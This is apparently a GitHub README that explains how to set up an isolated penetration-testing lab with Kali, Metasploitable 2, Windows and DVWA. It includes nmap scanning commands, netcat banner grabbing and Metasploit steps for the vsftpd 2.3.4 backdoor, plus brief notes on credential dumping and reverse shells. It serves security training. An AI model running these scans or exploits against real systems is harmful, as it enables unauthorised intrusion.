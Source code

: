 # 🛡️ A Detailed guide to setting up a safe and practical Real world penetration testing lab.

## 1️⃣ Lab Requirements

### Hardware
- Minimum 8–16 GB RAM, 4+ cores CPU
- 100+ GB free disk space
- Virtualization support (VT-x/AMD-V)

### Software
- **Host OS:** Windows 10/11 or Linux
- **Virtualization:** VMware Workstation, VirtualBox, or Hyper-V
- **Guest OS (Target Machines):**
  - Kali Linux (Attacker) – preinstalled with tools
  - Metasploitable 2 / 3 (Vulnerable Linux) – target
  - Windows 10 / Windows Server (for AD testing)
  - DVWA (Damn Vulnerable Web App) – for web testing

### Network Setup
- Use an **isolated virtual network** (NAT/Host-only) to avoid affecting your real network.
- Assign static IPs:
  - Kali: `192.168.56.128`
    
  - Metasploitable 2: `192.168.56.130`
  - Windows: `192.168.56.132`


## 2️⃣ Lab Setup

### Step 1: Install Virtualization
1. Install **VMware Workstation** or **VirtualBox**.
2. Enable **Virtualization** in BIOS.
3. Create a **Host-Only Network** (isolated from Internet).

### Step 2: Setup Attacker Machine
- Install **Kali Linux VM**.
- Update & upgrade packages:
```bash
sudo apt update && sudo apt upgrade -y
````

* Install extra tools:

```bash
sudo apt install -y nmap netcat metasploit-framework wireshark john hydra nikto
```

### Step 3: Setup Target Machines

* **Metasploitable 2:**

  * Import VM.
  * Assign static IP.
  * Default credentials: `msfadmin:msfadmin`.
* **Windows VM (Optional):**

  * Enable **Remote Desktop**.
  * Join domain if testing Active Directory attacks.

---

## 3️⃣ Network Reconnaissance

### Step 1: Ping Sweep

```bash
nmap -sn 192.168.56.0/24
```

### Step 2: Port Scanning

```bash
nmap -p- 192.168.56.130
```

Service & version detection:

```bash
nmap -sV -p 21,22,23,80,445 192.168.56.130
```

### Step 3: OS Detection

```bash
nmap -O 192.168.56.130
```

---

## 4️⃣ Vulnerability Enumeration

### Step 1: Banner Grabbing

* Using **Netcat**:

```bash
nc 192.168.56.130 21
```

* Using **Nmap scripts**:

```bash
nmap -sV --script=banner 192.168.56.130
```

### Step 2: Vulnerability Scanning

* Nmap NSE Scripts:

```bash
nmap --script vuln 192.168.56.130
```

* Using **OpenVAS / Nessus**:

  * Scan target VM for CVEs and vulnerabilities.

---

## 5️⃣ Exploitation

### Step 1: Using Metasploit

```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.130
run
```

### Step 2: Manual Exploits

* Exploit misconfigured services manually (e.g., default credentials on FTP, SMB).

---

## 6️⃣ Post-Exploitation

### Step 1: Privilege Escalation

* Check kernel version, installed packages.
* Use tools like **LinPEAS**, **WinPEAS**.

### Step 2: Collect Sensitive Data

* Dump passwords, configs, and user files for lab purposes.

### Step 3: Maintain Access

* Simulate reverse shells for testing.

---

## 7️⃣ Web Application Testing (Optional)

* Use **DVWA** or **OWASP Juice Shop**.
* Test for:

  * SQL Injection
  * XSS (Cross-Site Scripting)
  * File Upload Vulnerabilities
  * Command Injection

---

## 8️⃣ Reporting

* Document:

  * Recon results
  * Exploits used
  * Screenshots
  * Mitigation recommendations
* Create a **professional pentest report**.

---

## 9️⃣ Safety Tips

* Keep lab isolated from the Internet.
* Never scan or attack external networks without permission.
* Snapshot VMs before testing.

---

💡 **Tip:** Practice different attack vectors: network, web, and OS. Adding **Active Directory** lab allows testing of password attacks, group policies, and Kerberos vulnerabilities.

```

